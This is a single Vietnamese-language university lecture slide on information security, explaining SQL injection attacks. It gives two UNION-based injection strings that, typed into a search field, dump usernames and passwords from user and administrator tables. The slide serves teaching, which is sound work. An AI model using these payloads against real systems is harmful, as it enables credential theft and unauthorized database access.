

BÀI GIẢNG MÔN HỌC AN TOÀN VÀ BẢO MẬT HỆ THỐNG THÔNG TIN
CHƯƠNG 2 – CÁC DẠNG TẤN CÔNG VÀ CÁC PHẦN MỀM ĐỘC HẠI

2.3 Các dạng tấn công - Tấn công bằng mã độc:
SQL Injection - Đánh cắp các thông tin trong CSDL
Lấy thông tin từ một bảng đã biết tên và các trường:
Nhập chuỗi tìm kiếm:
samsung' union select username+'-'+password, 0 from tbl_users --
→ lấy danh sách tên truy nhập và mật khẩu của tất cả các users

Nhập chuỗi tìm kiếm:
samsung' union select username+'-'+password, 0
from tbl_administrators --
→ lấy danh sách tên truy nhập và mật khẩu của tất cả các admins.

Tin tặc có thể đánh cắp gần như mọi thông tin trong CSDL.
GIẢNG VIÊN: TS. HOÀNG XUÂN DẬU
BỘ MÔN: AN TOÀN THÔNG TIN - KHOA CNTT1
Trang 51
www.ptit.edu.vn